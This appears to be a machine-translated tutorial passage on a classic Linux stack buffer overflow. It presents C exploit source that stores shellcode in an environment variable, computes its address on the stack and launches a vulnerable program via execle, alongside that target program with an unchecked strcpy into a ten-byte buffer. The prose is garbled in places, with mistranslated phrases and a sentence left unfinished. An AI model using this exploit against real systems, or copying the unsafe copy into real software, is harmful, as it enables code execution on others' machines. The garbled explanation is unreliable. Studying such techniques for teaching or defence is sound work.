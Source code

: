 void main(int argc, char \*argv\[\]) {

char \*p;  
char \*env\[\] = {shellcode, NULL};  
char \*vuln\[\] = {NAME, p, NULL};  
int \*ptr, addr;  
int size;  
int i;

size = BSIZE;

p = (char \*) malloc(size \* sizeof(char));  
if(p == NULL) {  
fprintf(stderr, “nInsufficient memoryn”);  
exit(0);  
}

addr = 0xbffffffa – strlen(shellcode) – strlen(NAME) – 1;  
printf(“Using Address: \[ %08x \]n”, addr);

ptr = (int \*)p;  
for (i = 0; i < BSIZE; i += 4)  
\*(ptr++) = addr;

execle(vuln\[0\], vuln, p, NULL, env);  
}

And it is designed to exploit the following code

#include <stdio.h>
#include <string.h>

int main(int argc, char \*argv\[\])  
{  
char buff\[10\];  
strcpy(buff, argv\[1\]);  
return 0;  
}

The principle used in the exploit to calculate the address of the shellcode on the stack is based on how the stack is organized. At the _start of the stack_ (another good title), which was once 0xbfffffff simply found a 0x00000000 indicator that is beyond the end of the world, a sign for unwary sailors who dared to exceed Finisterre … ahem, I’m going . Before (or after) the `NULL` find the program name (not `argv[0]`), and the environment.

For variables that the method used to determine the address of the shellcode (introduced into an environment variable) is subtracted from 0xbfffffff first 4 bytes (those of the `NULL`), then subtract the length of the program name (that is terminated with a null byte, hence the `-1` at the end of the sentence), and finally,

Today, the top of the stack is in 0xffffe000, the last byte the 0xffffdfff legible. And it ends with two `NULL` (instead of one), so the exploit will have to modify it a little.

**First, I must clarify that this applies only to a system without ASLR. This technique is today rather a curiosity, unless you get off ASLR first for some misconfiguration, this technique is not applicable today. Nor should we forget that today the stack is not executable, then this technique can be used in conjunction with others that we first give execute permissions, as ROP.**
